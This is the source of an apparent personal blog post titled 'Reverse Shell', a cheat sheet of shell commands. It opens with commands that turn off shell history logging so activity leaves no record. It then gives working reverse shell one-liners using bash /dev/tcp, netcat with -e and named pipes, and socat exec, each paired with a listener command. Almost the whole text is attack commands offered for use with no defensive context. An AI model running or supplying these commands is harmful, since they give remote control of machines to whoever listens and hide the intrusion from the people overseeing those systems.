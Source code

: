 ```yaml
---
layout: post
title:  "Reverse Shell"
date:   2021-11-17 21:22:50 +0800
categories: notes
tags: bash socat nc
---
```


## Do not log commands

```bash
$ unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG
$ export HISTFILE=/dev/null
$ export HISTSIZE=0
$ export HISTFILESIZE=0
```

## bash

1. Listen

```bash
$ nc -lvvp {port}
```

2. Reverse connect

```bash
$ bash -i >& /dev/tcp/{host}/{port} 0>&1
```

## nc

1. Listen

```bash
$ nc -lvvp {port}
```

2. Reverse connect

```bash
$ nc -e /bin/sh {host} {port}
```

or

```bash
$ [mknod | mkfifo] {name} p
$ nc {host} {port} < {name} | /bin/sh 1> {name}
# cleanup
$ rm -f {name}
```

or

```bash
$ touch {name}
$ tail -f {name} | sh -i 2>&1 | nc {host} {port} > {name}
# cleanup
$ rm -f {name}
```

## socat

1. Listen

```bash
$ socat file:`tty`,raw,echo=0 tcp-listen:{port}
```

2. Reverse connect

```bash
$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{host}:{port}
```

